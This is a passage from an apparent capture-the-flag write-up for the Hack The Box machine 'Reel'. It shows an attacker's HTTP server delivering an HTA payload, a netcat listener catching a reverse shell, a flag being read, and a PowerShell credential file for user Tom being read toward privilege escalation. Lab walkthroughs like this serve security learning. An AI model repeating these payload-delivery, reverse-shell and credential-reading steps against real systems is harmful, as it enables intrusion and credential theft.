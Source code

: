 ```
┌──(gemstone㉿hashghost)-[~/…/Machines/vip/reel/exploit]
└─$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.77 - - [05/Jan/2023 02:20:58] "GET /msfv.hta HTTP/1.1" 200 -
```

3. The listener should have a shell.

    ```
    └─$ nc -nlvp 1234
    listening on [any] 1234 ...
    connect to [10.10.14.5] from (UNKNOWN) [10.10.10.77] 59061
    Microsoft Windows [Version 6.3.9600]
    (c) 2013 Microsoft Corporation. All rights reserved.

    C:\Windows\system32>
    ```
## User Account
```
C:\Windows\system32>whoami
htb\nico
```
**User flag**
```
C:\Users\nico\Desktop>type user.txt
322434b5216bf9d******
```
## Privilege Escalation
In desktop directory of user `nico` there is another file named `cred.xml`

```
C:\Users\nico\Desktop>dir
 Volume in drive C has no label.
 Volume Serial Number is CEBA-B613

 Directory of C:\Users\nico\Desktop

28/05/2018  20:07    <DIR>          .
28/05/2018  20:07    <DIR>          ..
27/10/2017  23:59             1,468 cred.xml
04/01/2023  22:08                34 user.txt
               2 File(s)          1,502 bytes
               2 Dir(s)   4,956,569,600 bytes free
```

This file contains the followings

```
C:\Users\nico\Desktop>type cred.xml
<Objs Version="1.1.0.1" xmlns="http://schemas.microsoft.com/powershell/2004/04">
  <Obj RefId="0">
    <TN RefId="0">
      <T>System.Management.Automation.PSCredential</T>
      <T>System.Object</T>
    </TN>
    <ToString>System.Management.Automation.PSCredential</ToString>
    <Props>
      <S N="UserName">HTB\Tom</S>
      <SS N="Password">01000000d08c9ddf0115d1118c7a00c04fc297eb01000000e4a07bc7aaeade47925c42c8be5870730000000002000000000003660000c000000010000000d792a6f34a55235c22da98b0c041ce7b0000000004800000a00000001000000065d20f0b4ba5367e53498f0209a3319420000000d4769a161c2794e19fcefff3e9c763bb3a8790deebf51fc51062843b5d52e40214000000ac62dab09371dc4dbfd763fea92b9d5444748692</SS>
    </Props>
  </Obj>
</Objs>
```